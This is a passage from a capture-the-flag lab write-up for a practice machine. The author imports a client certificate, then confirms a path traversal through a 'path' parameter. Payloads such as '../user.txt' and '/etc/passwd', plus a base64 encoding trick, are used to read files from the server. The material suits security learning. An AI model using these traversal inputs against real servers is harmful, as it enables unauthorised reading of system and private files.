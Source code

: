 Now that I have the self-signed **PKCS#12** certificate I need to import it into my browser so that I can decrypt the protected content of the server which I still cannot access. Once I accept the **risk of using a self-signed certificate** I can see all the content of the website and the first thing that catches my attention when hovering over the available links is that the **GET** method is used to navigate between the different available resources, also using the **path** parameter.

```html
# https://lacasadepapel.htb/
# -> Setting -> Privacy & Security -> Certificates -> View certificates -> Your Certificates -> Import
```

<br />
<img src="{{ site.img_path }}/lacasadepapel_writeup/LaCasaDePapel_29.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lacasadepapel_writeup/LaCasaDePapel_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lacasadepapel_writeup/LaCasaDePapel_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lacasadepapel_writeup/LaCasaDePapel_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lacasadepapel_writeup/LaCasaDePapel_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Since I've got the idea of trying to exploit a **[Path Traversal](https://portswigger.net/web-security/file-path-traversal){:target="_blank"}** kicking around in my head, I'm going to do some more research on the web. Another interesting thing is that the names of the resources stored on the server (videos in **AVI** format) are encoded in **Base 64** and available in the **file** folder. Then I do a test to check that the service is vulnerable to **[Path Traversal](https://portswigger.net/web-security/file-path-traversal){:target="_blank"}**, and **indeed it is**. But as I feared, when I try to access sensitive system files it cannot display or download them, because I must first encode the absolute path in **Base 64** and then if I access them taking advantage of the vulnerability. The first thing I do is to download the flag of the low privilege user.

```bash
# https://lacasadepapel.htb/
# https://lacasadepapel.htb/?path=SEASON-1
echo "U0VBU09OLTEvMDEuYXZp" | base64 -d; echo
# SEASON-1/01.avi
echo "U0VBU09OLTEvMDguYXZp" | base64 -d; echo
# SEASON-1/08.avi

# https://lacasadepapel.htb/?path=../
# https://lacasadepapel.htb/?path=../user.txt
# https://lacasadepapel.htb/?path=/etc/passwd
# :(
# Error: ENOENT: no such file or directory, scandir '/home/berlin/downloads//etc/passwd/'     Directory PATH Traversal!!

echo -n "../user.txt" | base64 -w 0
# https://lacasadepapel.htb/file/Li4vdXNlci50eHQ=

mv /home/al3j0/Downloads/user.txt .
cat user.txt
```

